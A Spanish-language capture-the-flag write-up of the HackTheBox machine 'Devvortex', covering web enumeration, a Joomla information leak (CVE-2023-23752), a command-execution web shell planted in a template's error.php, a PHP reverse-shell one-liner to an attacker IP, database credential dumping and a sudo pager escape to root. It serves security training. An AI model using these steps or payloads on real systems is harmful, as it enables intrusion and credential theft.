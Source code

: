 ```yaml
---
layout: post
title: Devvortex
img_path: "/assets/img/"
categories:
- HackTheBox
- Easy
tags:
- Joomla
- Virtual Hosting
- RCE
permalink: "/devvortex/"
image: Devvortex%20120599f1e39f4440af1b0a954204bc5d/Devvortex1.png
---
```

Devvortex es una máquina Linux con la que practicaremos enumeración web y virtual hosting. Al utilizar Joomla, practicaremos cómo podemos obtener ejecución remota de comandos una vez que accedemos al panel de administración. También se hace uso de la vulnerabilidad CVE-2023-23752 para obtener información sensible, como usuarios y contraseñas.

## 🔍 **ENUMERACIÓN**

Realizamos un nmap para conocer todos los puertos abiertos de la máquina.

```
nmap -p- -open -sS --min-rate 5000 -n -vvv -Pn 10.129.54.199 -oG allPorts
```

Una vez finalizado el escaneo, observamos que los únicos puertos abiertos son el 22 y el 80.

![Pasted image 20231202182800.png](Devvortex%20120599f1e39f4440af1b0a954204bc5d/Pasted_image_20231202182800.png)

A continuación, realizamos un escaneo más exhaustivo de dichos puertos para conocer la versión y servicio que utilizan. Observamos que el puerto 80 redirige a la dirección `[http://devvortex.htb](http://devvortex.htb)`, así que lo añadimos al archivo `/etc/hosts`

![Pasted image 20231202182158.png](Devvortex%20120599f1e39f4440af1b0a954204bc5d/Pasted_image_20231202182158.png)

```
nmap -p22,80 -sCV 10.129.54.199 -oN targeted
```

![Pasted image 20231202182309.png](Devvortex%20120599f1e39f4440af1b0a954204bc5d/Pasted_image_20231202182309.png)

### Puerto 80

![Pasted image 20231203131930.png](Devvortex%20120599f1e39f4440af1b0a954204bc5d/Pasted_image_20231203131930.png)

Comenzamos analizando las tecnologías que utiliza con la herramienta `whatweb`.

![Pasted image 20231203133456.png](Devvortex%20120599f1e39f4440af1b0a954204bc5d/Pasted_image_20231203133456.png)

Observamos que utiliza `nginx 1.18.0`, pero no encontramos ninguna vulnerabilidad. Realizamos un escaneo de directorios con la herramienta `gobuster`.

```
gobuster dir -u http://devvortex.htb/ -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 100 -o devvortex.htb.dirs -f
```

![Pasted image 20231203133401.png](Devvortex%20120599f1e39f4440af1b0a954204bc5d/Pasted_image_20231203133401.png)

No encontramos nada interesante, así que probamos a ver si utiliza *virtual hosting.* Para ello, utilizamos `gobuster`.

```
gobuster vhost --append-domain -u http://devvortex.htb/ -t 50 -w /usr/share/SecLists/Discovery/DNS/subdomains-top1million-110000.txt -o devvortex.vhosts
```

![Pasted image 20231203133909.png](Devvortex%20120599f1e39f4440af1b0a954204bc5d/Pasted_image_20231203133909.png)

Encontramos un subdominio: `dev.devvortex.htb`. Para poder acceder a él, lo añadimos al archivo `/etc/hosts`.

![Pasted image 20231203175102.png](Devvortex%20120599f1e39f4440af1b0a954204bc5d/Pasted_image_20231203175102.png)

### dev.devvortex.htb

![Pasted image 20231203134046.png](Devvortex%20120599f1e39f4440af1b0a954204bc5d/Pasted_image_20231203134046.png)

Realizamos un escaneo de directorios del nuevo subdominio con `gobuster`.

```
gobuster dir -u http://dev.devvortex.htb/ -f -w /usr/share/SecLists/Discovery/Web-Content/common.txt -t 200 -o dev.devvortex.htb.dirs
```

![Pasted image 20231203135832.png](Devvortex%20120599f1e39f4440af1b0a954204bc5d/Pasted_image_20231203135832.png)

Encontramos un directorio interesante: `/administrator/`. Si accedemos a él, podemos observar que se trata de un panel de autenticación de `joomla`. 

![Pasted image 20231203135901.png](Devvortex%20120599f1e39f4440af1b0a954204bc5d/Pasted_image_20231203135901.png)

Podemos utilizar la herramienta `joomscan` para poder saber más.

```
joomscan -u http://dev.devvortex.htb
```

![Pasted image 20231203143507.png](Devvortex%20120599f1e39f4440af1b0a954204bc5d/Pasted_image_20231203143507.png)

Gracias a `joomscan`, obtenemos que la versión utilizada de `joomla` es la `4.2.6`. Buscando por internet, encontramos que puede ser vulnerable a ***CVE-2023-23752.***

## 💥 **EXPLOTACIÓN**

[https://github.com/Ly0kha/Joomla-CVE-2023-23752-Exploit-Script](https://github.com/Ly0kha/Joomla-CVE-2023-23752-Exploit-Script)

Utilizando el siguiente exploit, podemos extraer información valiosa de la base de datos utilizada por `joomla`.

![Pasted image 20231203144317.png](Devvortex%20120599f1e39f4440af1b0a954204bc5d/Pasted_image_20231203144317.png)

Observamos que tenemos dos usuarios: **lewis** y **logan**. Además, tenemos la contraseña de lewis: `P4ntherg0t1n5r3c0n##`. Si probamos a utilizar las credenciales a través de SSH, no vamos a tener exito, pero podemos acceder a través del panel de autenticación de `joomla`.

![Pasted image 20231203144756.png](Devvortex%20120599f1e39f4440af1b0a954204bc5d/Pasted_image_20231203144756.png)

Una vez que tenemos acceso al panel de administración, podemos obtener un **RCE** para utilizar una reverse shell. Para ello nos dirigimos a la pestaña system, Administrator Templates, seleccionamos la template atum, y editamos el archivo `error.php`.

![Pasted image 20231203162659.png](Devvortex%20120599f1e39f4440af1b0a954204bc5d/Pasted_image_20231203162659.png)

Si accedemos desde el navegador, podemos ejecutar comandos.

```
http://dev.devvortex.htb/administrator/templates/atum/error.php?cmd=id
```

![Pasted image 20231203162950.png](Devvortex%20120599f1e39f4440af1b0a954204bc5d/Pasted_image_20231203162950.png)

Para conseguir enviarnos una reverse shell a través del **RCE**, utilizamos el siguiente **payload**.

```php
php -r '$sock=fsockopen("10.10.16.24",443);exec("sh <&3 >&3 2>&3");'
```

Nos ponemos en escucha con `netcat` para recibir la reverse shell.

![Pasted image 20231203163410.png](Devvortex%20120599f1e39f4440af1b0a954204bc5d/Pasted_image_20231203163410.png)

Una vez dentro, el único usuario disponible es **logan**, pero no tenemos las credenciales para poder conectarnos. Como anteriormente obtuvimos las credenciales de la base de datos de `joomla`, podemos utilizarlas para obtener las credenciales de **logan**.

```
mysql -u lewis -pP4ntherg0t1n5r3c0n##
use joomla;
select username,password from sd4fg_users;
```

![Pasted image 20231203165325.png](Devvortex%20120599f1e39f4440af1b0a954204bc5d/Pasted_image_20231203165325.png)

Guardamos la clave encriptada de logan para poder crackearla con john.

![Pasted image 20231203165304.png](Devvortex%20120599f1e39f4440af1b0a954204bc5d/Pasted_image_20231203165304.png)

Una vez obtenida la contraseña de logan, podemos conectarnos a través de ssh.

![Pasted image 20231203165429.png](Devvortex%20120599f1e39f4440af1b0a954204bc5d/Pasted_image_20231203165429.png)

Una vez dentro, ya podemos ver la flag de `user.txt`. que está situada en `/home/logan/user.txt`.

## 🔐 **ESCALADA DE PRIVILEGIOS**

Si realizamos un `sudo -l` para ver los commandos que podemos ejecutar como `root` nos encontramos lo siguiente.

![Pasted image 20231203172027.png](Devvortex%20120599f1e39f4440af1b0a954204bc5d/Pasted_image_20231203172027.png)

Si lo ejecutamos para ver algún crasheo que se haya producido, podemos elevar privilegios, ya que para mostrar el reporte utiliza una funcionalidad de pager como `less`.

![Pasted image 20231203172109.png](Devvortex%20120599f1e39f4440af1b0a954204bc5d/Pasted_image_20231203172109.png)

Seleccionamos la opción V para ver el reporte y cuando nos muestre el reporte ejecutamos `!bash` y obtendremos una shell como `root`.

![Pasted image 20231203172221.png](Devvortex%20120599f1e39f4440af1b0a954204bc5d/Pasted_image_20231203172221.png)

Una vez que tenemos acceso como `root`, podemos obtener la flag en `/root/root.txt`.